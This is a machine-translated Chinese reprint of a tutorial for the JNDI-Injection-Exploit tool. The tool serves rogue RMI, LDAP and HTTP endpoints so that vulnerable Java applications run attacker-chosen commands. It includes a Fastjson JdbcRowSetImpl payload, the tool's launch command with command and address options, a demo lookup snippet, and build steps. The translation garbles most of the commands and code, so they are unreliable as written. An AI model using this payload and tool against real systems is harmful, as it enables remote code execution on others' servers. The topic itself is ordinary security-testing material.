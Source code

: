 # JNDI 注入利用:一个工具，产生 JNDI 链接可以启动几个服务器

> 原文：<https://kalilinuxtutorials.com/jndi-injection-exploit/>

[![](img//4b32e1a2af0fde1613763b6ceba519dd.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEibchg98Zt_4QFlDcec_tny2jQcLcjCU9HLo94uCkaPcpFaE-DF9zYqX72N1WKE6yIkrnikxEgg7Oi_hJdpDWYyfV8IwpbGrBZv1rxz8JzhcPN0gf_BiXfKGvWW4OyF3yX2GLQIK6cs5W04ERNiGX_hOLxx8xMc8lZod4YRISmT6MReIg2kNFSJwWWs/s728/JNDI-Exploit-Kit%20(1).png)

**JNDI 注入利用**是一个通过启动 RMI 服务器、LDAP 服务器、HTTP 服务器来生成可工作的 JNDI 链接并提供后台服务的工具。RMI 服务器和 LDAP 服务器是基于封送处理的，并被进一步修改以与 HTTP 服务器链接。

使用这个工具可以让你获得 JNDI 链接，你可以将这些链接插入到你的 **POC** 中来测试漏洞。

例如，这是一个 Fastjson vul-poc:

**{ " @ type ":" com . sun . rowset . jdbcrowset impl "，" data source name ":" RMI://127 . 0 . 0 . 1:1099/Object "，" autoCommit":true}**

我们可以把“rmi://127.0.0.1:1099/Object”替换成 JNDI 注入利用产生的链接来测试漏洞。

## 使用

运行方式

**$ Java-jar JNDI-注入-利用-1.0-快照-全部. jar[-C][命令][-A][地址]**

其中:

*   **-C**–在远程类文件中执行的命令。(可选，默认命令是“打开/应用程序/计算器. app”)
*   **-A**-你的服务器地址，可能是 IP 地址或者域名。(可选，默认地址是第一个网络接口地址)

注意事项:

*   确保服务器的端口( **1099** 、 **1389** 、 **8180** )可用。或者您可以在运行中更改默认端口。ServerStart 类第 26~28 行。
*   您的命令被传递给 **Runtime.getRuntime()。exec()** 作为参数，所以你需要确保你的命令在方法 exec()中是可工作的。**bash 中的命令如“bash -c ….”需要加双引号。**

## 例子

本地演示:

*   像这样启动工具:

**$ Java-jar JNDI-注入-利用-1.0-快照-全部. jar -C "打开/应用程序/计算器. app" -A "127.0.0.1"**

*   假设我们将步骤 1 中生成的 rmi://ADDRESS/jfxllc 这样的 JNDI 链接注入到一个易受攻击的应用程序中，该应用程序可能会受到 JNDI 注入的攻击。

在本例中，它看起来像这样:

**public static void main(String[]args)抛出异常{
initial context CTX = new initial context()；
CTX . lookup(" RMI://127 . 0 . 0 . 1/FGF 4 FP ")；
}**

然后当我们运行这段代码时，命令将被执行，

日志将在 shell 中打印。

## 装置

我们可以从这两种方法中选择一种来得到这个罐子。

*   从 Release 下载最新的 jar。
*   将源代码克隆到本地并构建(需要 Java 1.8+和 Maven 3.x+)。

**$ git 克隆 https://github.com/welk1n/JNDI-Injection-Exploit.git**

**$ CD JNDI-注入-利用**

**$ mvn 干净包-DskipTests**

[**Download**](https://github.com/welk1n/JNDI-Injection-Exploit)